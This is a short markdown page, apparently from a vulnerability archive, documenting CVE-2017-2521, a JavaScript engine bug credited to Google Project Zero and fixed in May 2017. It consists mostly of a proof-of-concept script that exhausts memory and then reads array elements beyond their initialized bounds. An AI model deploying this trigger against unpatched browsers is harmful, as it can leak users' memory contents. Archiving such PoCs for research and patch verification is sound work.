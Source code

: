# CVE-2017-2521

- Fix: May 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
const kArrayLength = 0x200000;

let arr = new Array(kArrayLength);
arr.fill({});

let exh = [];
try {
    for (;;) {
        exh.push(new ArrayBuffer(kArrayLength * 8 * 8));
    }
} catch (e) {
}

try {
    arr.length *= 8;
    print('failed');
} catch (e) {
    print(e);

    exh = null;

    print('arr length: ' + arr.length.toString(16));
    for (let i = kArrayLength, n = arr.length; i < n; i++) {
        if (arr[i])
            print(arr[i]);
    }
}
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207804)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1165)
